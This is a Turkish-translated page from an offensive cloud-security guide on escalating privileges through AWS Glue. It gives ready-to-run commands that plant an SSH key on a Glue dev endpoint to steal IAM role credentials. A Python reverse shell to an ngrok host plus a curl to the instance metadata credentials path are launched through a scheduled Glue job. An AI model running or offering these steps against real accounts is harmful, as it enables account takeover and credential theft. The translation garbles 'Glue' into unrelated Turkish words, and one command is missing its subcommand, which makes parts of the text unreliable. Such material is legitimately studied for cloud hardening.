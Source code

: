 # AWS - Glue Privilege Escalation

{% hint style="success" %}
AWS Hacking'ı öğrenin ve uygulayın: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* Hacking püf noktalarını paylaşarak PR'ler göndererek **HackTricks** ve **HackTricks Cloud** github depolarına katkıda bulunun.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Bu izinlere sahip kullanıcılar, **yeni bir AWS Glue geliştirme ucu** kurabilir ve bu uca özel izinlere sahip Glue tarafından alınabilir bir mevcut hizmet rolü atayabilir.

Kurulumdan sonra **saldırgan uç noktanın örneğine SSH ile bağlanabilir** ve atanan rolün IAM kimlik bilgilerini çalabilir:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Gizlilik amacıyla, Glue sanal makinesi içinden IAM kimlik bilgilerini kullanmanız önerilir.

**Potansiyel Etki:** Belirtilen yapışkanlık hizmet rolüne yükseltme.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Bu izne sahip kullanıcılar, **mevcut bir Glue geliştirme** ucu noktasının SSH anahtarını **değiştirebilir ve buna SSH erişimini etkinleştirebilir**. Bu, saldırganın uç noktaya bağlı rolün ayrıcalıklarıyla komutları yürütmesine olanak tanır:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potansiyel Etki:** Kullanılan yapıştırma servisi rolüne ayrıcalık yükseltme.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** izni olan kullanıcılar, ya **`glue:CreateJob` veya `glue:UpdateJob`** ile birlikte ya da **`glue:StartJobRun` veya `glue:CreateTrigger`** ile birlikte, bir AWS Glue işi **oluşturabilir veya güncelleştirebilir**, herhangi bir **Glue servis hesabını** ekleyebilir ve işin yürütülmesini başlatabilir. İşin yetenekleri arasında keyfi Python kodu çalıştırma bulunmaktadır, bu da ters kabuk oluşturmak için sömürülebilir. Bu ters kabuk daha sonra Glue işine bağlı rolün **IAM kimlik bilgilerini** dışa aktarmak için kullanılabilir, bu da o rolün izinlerine dayalı potansiyel yetkisiz erişim veya işlemlere yol açabilir:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potansiyel Etki:** Belirtilen yapıştırma servisi rolüne ayrıcalık yükseltme.

### `glue:UpdateJob`

Sadece güncelleme izni ile bir saldırgan, zaten eklenmiş rolün IAM Kimlik bilgilerini çalabilir.

**Potansiyel Etki:** Eklenmiş yapıştırma servisi rolüne ayrıcalık yükseltme.

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
